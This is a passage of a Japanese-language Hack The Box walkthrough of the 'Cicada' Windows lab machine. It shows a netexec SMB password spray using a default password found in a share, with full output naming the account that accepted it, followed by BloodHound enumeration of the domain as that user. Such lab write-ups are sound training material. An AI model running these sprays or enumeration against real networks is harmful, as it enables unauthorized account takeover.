 中身にはデフォルトのパスワードがありました。

![image-20250207113346316](screenshot/image-20250207113346316.png)

パスワードを取得したのでデフォルトのパスワードを使っているユーザーがいないかパスワードスプレーを行いました。

`michael.wrightson` がデフォルトのパスワードを使っていることが分かりました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
```

## BloodHound

michael.wrightsonとして認証を行えるので `bloodhound-python` で列挙を行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ bloodhound-python -d cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -dc CICADA-DC.cicada.htb -ns 10.10.11.35 --zip -c All
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: cicada.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: CICADA-DC.cicada.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: CICADA-DC.cicada.htb
INFO: Found 9 users
INFO: Found 54 groups
INFO: Found 3 gpos
INFO: Found 2 ous
```